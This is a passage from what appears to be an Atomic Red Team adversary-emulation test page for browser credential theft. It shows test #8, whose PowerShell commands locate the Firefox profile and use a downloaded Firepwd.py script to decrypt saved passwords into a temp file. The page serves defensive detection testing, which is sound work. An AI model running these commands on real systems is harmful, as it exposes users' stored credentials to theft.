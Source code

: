 ```powershell
Start-Sleep -s 20
Stop-Process -Name msedge
```




<br/>
<br/>

## Atomic Test #8 - Decrypt Mozilla Passwords with Firepwd.py
Firepwd.py is a script that can decrypt Mozilla (Thunderbird, Firefox) passwords.
Upon successful execution, the decrypted credentials will be output to a text file, as well as displayed on screen.

**Supported Platforms:** Windows


**auto_generated_guid:** dc9cd677-c70f-4df5-bd1c-f114af3c2381





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| Firepwd_Path | Filepath for Firepwd.py | string | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;Firepwd.py|
| Out_Filepath | Filepath to output results to | string | $env:temp&#92;T1555.003Test8.txt|
| VS_CMD_Path | Filepath to Visual Studio Build Tools Command prompt | string | C:&#92;Program Files (x86)&#92;Microsoft Visual Studio&#92;2022&#92;BuildTools&#92;VC&#92;Auxiliary&#92;Build&#92;vcvars64.bat|
| Python_Path | Filepath to python | string | C:&#92;Program Files&#92;Python310&#92;python.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
$PasswordDBLocation = get-childitem -path "$env:appdata\Mozilla\Firefox\Profiles\*.default-release\"
cmd /c #{Firepwd_Path} -d $PasswordDBLocation > #{Out_Filepath}
cat #{Out_Filepath}
```

#### Cleanup Commands:
```powershell
Remove-Item -Path "#{Out_Filepath}" -erroraction silentlycontinue
```



#### Dependencies:  Run with `powershell`!
##### Description: Firepwd must exist at #{Firepwd_Path}
##### Check Prereq Commands:
```powershell
if (Test-Path "#{Firepwd_Path}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction ignore -Force | Out-Null
Invoke-WebRequest "https://raw.githubusercontent.com/lclevy/firepwd/167eabf3b88d5a7ba8b8bc427283f827b6885982/firepwd.py" -outfile "#{Firepwd_Path}"
```
##### Description: Firefox profile directory must be present
##### Check Prereq Commands: